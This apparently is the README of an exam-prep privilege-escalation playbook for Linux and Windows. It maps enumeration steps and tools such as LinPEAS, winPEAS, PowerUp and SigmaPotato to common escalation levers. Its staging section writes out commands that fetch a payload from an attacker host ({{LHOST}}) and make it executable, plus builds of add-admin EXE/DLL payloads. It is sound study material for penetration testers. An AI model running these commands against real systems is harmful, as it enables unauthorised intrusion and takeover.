

# Privilege Escalation

Privesc playbook for standalone boxes, split by OS. Notes here template with **BoxHelper.html**
(`{{TARGET_IP}}`, `{{LHOST}}`, `{{LPORT}}`, `{{USERNAME}}`, `{{PASSWORD}}`, `{{WORDLIST}}`, `{{OUTPUT}}`, …).

- [linux.md](linux.md) — PEN-200 Module 18 (Linux Privilege Escalation): manual + automated enumeration,
  leaked credentials (env vars, history, sniffed traffic), insecure file permissions (cron, `/etc/passwd`),
  SUID/capabilities, sudo (GTFOBins), kernel exploits.
- [windows.md](windows.md) — PEN-200 Module 17 (Windows Privilege Escalation): SID/token/UAC theory,
  situational awareness, leaked credentials (dotfiles, PowerShell history/transcripts), service abuse
  (binary hijack, DLL hijack, unquoted paths), scheduled tasks, kernel exploits, `SeImpersonatePrivilege`/Potato.

> **The one rule:** enumerate before you exploit, and re-enumerate after every pivot. Almost every
> vector in both files starts from something *found*, not guessed — a writable file, a leaked
> password, a misconfigured permission. The exploit step is usually the easy part once the finding
> is in hand.

---

## Privesc cheat-scroll

A one-glance map of the whole privesc space — enumerate, find the lever, exploit. Open the
📖 README drawer in BoxHelper (or click to zoom on GitHub) to view it full-width.



---

## 0 · Toolbox — set this up *before* the exam

### Install on Kali

| Tool | Package / source | Used for |
|---|---|---|
| `unix-privesc-check` | preinstalled (`/usr/bin/unix-privesc-check`) | Linux automated baseline — linux.md §18.1.3 |
| LinPEAS | `sudo apt install peass` → `/usr/share/peass/linpeas/` (mirrored in `../linpeas/`) | Linux automated enum — linux.md §18.1.3 |
| LinEnum | `git clone https://github.com/rebootuser/LinEnum` | Linux automated enum, lighter than LinPEAS — linux.md §18.1.3 |
| winPEAS | `sudo apt install peass` → `/usr/share/peass/winpeas/winPEASx64.exe` (mirrored in `../winpeas/`) | Windows automated enum — windows.md §17.1.5 |
| PowerUp.ps1 | `sudo apt install windows-resources` → `/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1` | Service/scheduled-task abuse detection + automation — windows.md §17.2, §17.3.1 |
| evil-winrm | `sudo apt install evil-winrm` (or `gem install evil-winrm`) | WinRM shell after recovering creds — windows.md §17.1.4 |
| mingw-w64 | `sudo apt install gcc-mingw-w64` | cross-compile Windows EXE/DLL payloads on Kali — windows.md §17.2.1–17.2.2 |
| SigmaPotato | `wget` the GitHub release (no apt package) | `SeImpersonatePrivilege` abuse — windows.md §17.3.2 |
| searchsploit / exploitdb | preinstalled (`sudo apt update && apt install exploitdb` to refresh) | kernel/app exploit lookup — linux.md §18.4.3, windows.md §17.3.2 |
| Seatbelt / JAWS *(optional)* | GitHub release / source (GhostPack, `..\JAWS\`) | fallback if AV blocks winPEAS — windows.md §17.1.5 |

### Copy to targets

| Target | File | Comes from | Notes |
|---|---|---|---|
| Linux | `linpeas.sh` | `/usr/share/peass/linpeas/` or `../linpeas/` | serve via `python3 -m http.server`, pull with `wget`/`curl` |
| Linux | `unix-privesc-check` | `/usr/bin/unix-privesc-check` | single self-contained bash script |
| Linux | compiled kernel exploit (e.g. `cve-2017-16995.c`) | `searchsploit -m <EDB-ID>`, then **compile on the target** | matches target's own libs/arch — linux.md §18.4.3 |
| Windows | `winPEASx64.exe` (or x86 build) | `/usr/share/peass/winpeas/` or `../winpeas/` | match target architecture |
| Windows | `PowerUp.ps1` | `/usr/share/windows-resources/powersploit/Privesc/` | dot-source (`. .\PowerUp.ps1`), then call its functions |
| Windows | `SigmaPotato.exe` | GitHub release | needs `SeImpersonatePrivilege` |
| Windows | cross-compiled payload (`adduser.exe`, `TextShaping.dll`, …) | build on Kali with `mingw-w64`, match target arch (x86_64 vs i686) | windows.md §17.2.1–17.2.2 |
| Windows | precompiled kernel exploit (e.g. `CVE-2023-29360.exe`) | Exploit-DB / GitHub PoC release | verify against the target's missing KB first — windows.md §17.3.2 |

### Lighter alternatives — less smoke, more signal

LinPEAS/winPEAS check *everything* and print all of it. These trade some coverage for output you
can actually read on a timer:

| Tool | OS | Install on Kali | Copy to target | Why it's lighter |
|---|---|---|---|---|
| **lse.sh** (linux-smart-enumeration) | Linux | `git clone https://github.com/diego-treitos/linux-smart-enumeration` | `lse.sh` | verbosity **levels** — `./lse.sh -l0` only prints what's actually flagged as interesting; `-l1`/`-l2` add detail on demand instead of dumping it all upfront |
| **traitor** | Linux | `go install github.com/liamg/traitor@latest` (or grab the release binary — no Go needed) | `traitor` | doesn't just report misconfigs, **auto-exploits** the common ones (SUID, sudo, capabilities, cron) it finds — skips the read-then-act step entirely |
| **PrivescCheck** | Windows | `git clone https://github.com/itm4n/PrivescCheck` | `PrivescCheck.ps1` | one structured, color-coded results table grouped by category, instead of winPEAS's stream-of-consciousness scroll |
| **SharpUp** | Windows | build from source (`github.com/GhostPack/SharpUp`) or grab a compiled release | `SharpUp.exe` | ports only PowerUp's curated checks (services, tasks, unquoted paths, etc.) — a fixed, short list instead of winPEAS's everything-and-the-registry |

> Good workflow: run the lighter tool first for a fast read, then reach for LinPEAS/winPEAS only if
> it comes up empty and you suspect something more obscure (DPAPI blobs, credential-manager entries,
> etc. — the long tail winPEAS covers that the lighter tools intentionally skip).

---

## 1 · Same shape, different levers

Both OSes reduce to the same four questions; only the mechanism differs:

| Question | Linux | Windows |
|---|---|---|
| **Who am I, what can I reach?** | `id`, `sudo -l`, `find / -perm -u=s` | `whoami /groups`, `whoami /priv`, `Get-LocalGroupMember` |
| **What did someone leave behind?** | `.bash_history`, `env`, cron scripts, world-readable configs | PSReadLine history, PS Transcripts, `.txt`/`.kdbx`/`.ini` sweeps |
| **What runs privileged that I can touch?** | SUID/capability binaries, sudo-permitted commands, cron jobs | service binaries/DLLs/paths, scheduled tasks |
| **Is there a known bug in the OS itself?** | kernel exploit matched via `uname -a` + searchsploit | kernel CVE matched via `systeminfo` hotfix list; `SeImpersonatePrivilege` → Potato |

Automated sweep tools exist for both and should run **alongside**, not instead of, manual review —
`unix-privesc-check`/LinPEAS (`../linpeas/`) miss custom one-offs just like winPEAS
(`../winpeas/`) does; see linux.md §18.1.3 and windows.md §17.1.5 for concrete examples of each
tool's blind spots.

---

## 2 · The recurring pattern: find something writable that runs as someone else

Most of both files' techniques are one shape — **a privileged process executes a file path you can
write to** — applied to different Windows/Linux mechanisms:

| Mechanism | Linux | Windows |
|---|---|---|
| Scheduled execution | cron job script | Scheduled Task action |
| Service/daemon binary | (rare — most system daemons are packaged read-only) | service `PathName`, or an unquoted-path segment |
| Library load | (LD_PRELOAD-style hijacks, out of scope here) | missing DLL in the app's search-order directory |
| Auth data itself | writable `/etc/passwd` (2nd field hash wins over `/etc/shadow`) | — |

The exploitation loop is always: **find write access → confirm the privileged trigger will fire →
drop payload → wait or force the trigger → clean up / restore the original** (rename, don't
delete, whatever you overwrote).

---

## 3 · Staging payloads

Both files lean on a Kali-hosted Python web server + native pull command — keep this pair handy:

```bash
python3 -m http.server 80        # serve from the directory holding your payload
```

```bash
# Linux target
wget http://{{LHOST}}/payload -O /tmp/payload && chmod +x /tmp/payload
```

```powershell
# Windows target
iwr -uri http://{{LHOST}}/payload.exe -Outfile payload.exe
```

Cross-compiling a Windows payload from Kali (used repeatedly in windows.md for the
add-local-admin binary/DLL):

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe            # EXE
x86_64-w64-mingw32-gcc hijack.cpp --shared -o hijack.dll   # DLL
```

> Document as you go: which file/permission/credential you found, exactly what you overwrote or
> abused, and how you restored the box afterward. In a real engagement, leaving a service binary
> replaced or a reboot uncoordinated is its own finding.
